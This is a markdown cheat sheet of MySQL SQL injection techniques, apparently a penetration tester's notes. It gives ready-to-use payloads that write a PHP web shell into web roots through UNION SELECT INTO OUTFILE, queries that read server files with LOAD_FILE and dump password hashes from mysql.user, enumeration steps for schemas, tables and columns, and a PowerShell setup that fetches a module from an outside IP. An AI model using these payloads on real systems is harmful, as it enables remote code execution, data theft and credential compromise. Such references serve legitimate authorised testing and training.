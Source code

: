 # sqli mysql

## Checks for UDF (if root on mysql)

```bash
# checking if database has been misconfigured to allow insecure handling of files.
SHOW VARIABLES LIKE "secure_file_priv";

# where udf files are loaded from
@@plugin_dir;
SHOW VARIABLES LIKE 'plugin_dir';

# show all vars
SHOW variables;

# show PERMS
SHOW Grants;
```

## SQLi shell

```bash
# windows
?id=1 union all select 1,2,"<?php echo system($_GET['cmd']);?>",4 into OUTFILE 'c:/xampp/htdocs/cmd.php'

# linux
?id=1 union all select 1,2,"<?php echo shell_exec($_GET['cmd']);?>",4 into OUTFILE '/var/www/html/cmd.php'
# try: "<?php echo exec($_GET["cmd"]);"
# try: replace "php-payload" with (php-payload)
```

## my-sql commands

```bash
# comments
#
--
/* <blah> */

# other ways
# 0x3a separates the field with a ':'
concat(col_1)
concat(col_1,0x3a,col_2)
concat(0x28,col_1,0x3a,col_2,0x29)

# hostname
@@hostname

# data directory
@@datadir

# version
@@version
version()

# read-file
# C:\Windows\System32\Drivers\etc\hosts
# C:\\Windows\\System32\\Drivers\\etc\\hosts
LOAD_FILE('<file>')
TO_BASE64(LOAD_FILE('<file>'))

# users
user()
system_user()
| SELECT user FROM mysql.user

# password (md5)
# TO_BASE64(password)
| SELECT password FROM mysql.user

# databases
database()
| SELECT schema_name FROM information_schema.schemata;

# tables
SELECT table_name FROM information_schema.tables WHERE table_schema='<db>'
# can use WHERE table_schema IN (0x<table-in-hex>, 0x<table-in-hex>)

# cols
SELECT column_name FROM information_schema.columns WHERE table_name='<table>'
describe [<db>.]<table>

# nth row
# to get total-rows
SELECT count(*) FROM <table>
# enumerate incrementally
SELECT <col> FROM <table> LIMIT <n>,1
SELECT <col> FROM <table> LIMIT 1 OFFSET <n>
```

## mysql w/ powershell

* [mcpmag.com/querying-mysql-databases.aspx/](https://mcpmag.com/articles/2016/03/02/querying-mysql-databases.aspx/)
* **known bug
  fix:** [adamtheautomator.com/powershell-get-credential/#Create_a_Credential_without_a_Prompt](https://adamtheautomator.com/powershell-get-credential/#Create_a_Credential_without_a_Prompt)

```bash
wget https://github.com/adbertram/MySQL/archive/master.zip -O MySQL.zip

# setup
Invoke-WebRequest  -Uri http://IP/MySQL.zip -OutFile 'C:\MySQL.zip'

$modulesFolder = 'C:\Program Files\WindowsPowerShell\Modules'
Expand-Archive -Path C:\MySql.zip -DestinationPath $modulesFolder
Rename-Item -Path "$modulesFolder\MySql-master" -NewName MySQL

# usage
$user = '<user>'
$password = ConvertTo-SecureString '<password>' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($user, $password)

Connect-MySqlServer -Credential $credential -ComputerName 'localhost' -Database "<db>"
Invoke-MySqlQuery  -Query "select @@version;"
```

## Error based

* [perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/](https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/)
